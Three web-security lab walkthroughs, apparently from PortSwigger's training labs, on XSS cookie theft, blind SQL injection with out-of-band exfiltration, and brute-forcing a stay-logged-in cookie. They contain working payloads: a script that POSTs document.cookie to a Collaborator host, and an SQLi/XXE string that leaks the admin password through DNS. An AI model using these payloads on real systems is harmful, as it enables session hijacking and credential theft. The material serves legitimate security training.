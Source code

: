 ### Lab: Exploiting cross-site scripting to steal cookies

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:  
    `<script>  
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {  
    method: 'POST',  
    mode: 'no-cors',  
    body:document.cookie  
    });  
    </script>`  
    This script will make anyone who views the comment issue a POST request to `burpcollaborator.net` containing their cookie.
4.  Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5.  Take a note of the value of the victim's cookie in the POST body.
6.  Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

### Lab: Blind SQL injection with out-of-band data exfiltration

1.  Visit the front page of the shop, and use [Burp Suite Professional](https://portswigger.net/burp/pro) to intercept and modify the request containing the `TrackingId` cookie.
2.  Go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
3.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4.  Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`.
5.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6.  You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.



### Lab: Brute-forcing a stay-logged-in cookie

1.  With Burp running, log in to your own account with the "Stay logged in" option selected. Notice that this sets a `stay-logged-in` cookie.
2.  Examine this cookie in the [Inspector](https://portswigger.net/burp/documentation/desktop/functions/message-editor/inspector) panel and notice that it is Base64-encoded. Its decoded value is `wiener:51dc30ddc473d43a6011e9ebba6ca770`. Study the length and character set of this string and notice that it could be an MD5 hash. Given that the plaintext is your username, you can make an educated guess that this may be a hash of your password. Hash your password using MD5 to confirm that this is the case. We now know that the cookie is constructed as follows:  
    `base64(username+':'+md5HashOfPassword)`
3.  Log out of your account.
4.  Send the most recent `GET /my-account` request to Burp Intruder.
5.  In Burp Intruder, add a payload position to the `stay-logged-in` cookie and add your own password as a single payload.
6.  Under "Payload processing", add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted.
    -   Hash: `MD5`
    -   Add prefix: `wiener:`
    -   Encode: `Base64-encode`
7.  As the "Update email" button is only displayed when you access the `/my-account` page in an authenticated state, we can use the presence or absence of this button to determine whether we've successfully brute-forced the cookie. On the "Options" tab, add a grep match rule to flag any responses containing the string `Update email`. Start the attack.
8.  Notice that the generated payload was used to successfully load your own account page. This confirms that the payload processing rules work as expected and you were able to construct a valid cookie for your own account.
9.  Make the following adjustments and then repeat this attack:
    -   Remove your own password from the payload list and add the list of [candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) instead.
    -   Change the "Add prefix" rule to add `carlos:` instead of `wiener:`.
10.  When the attack is finished, the lab will be solved. Notice that only one request returned a response containing `Update email`. The payload from this request is the valid `stay-logged-in` cookie for Carlos's account.

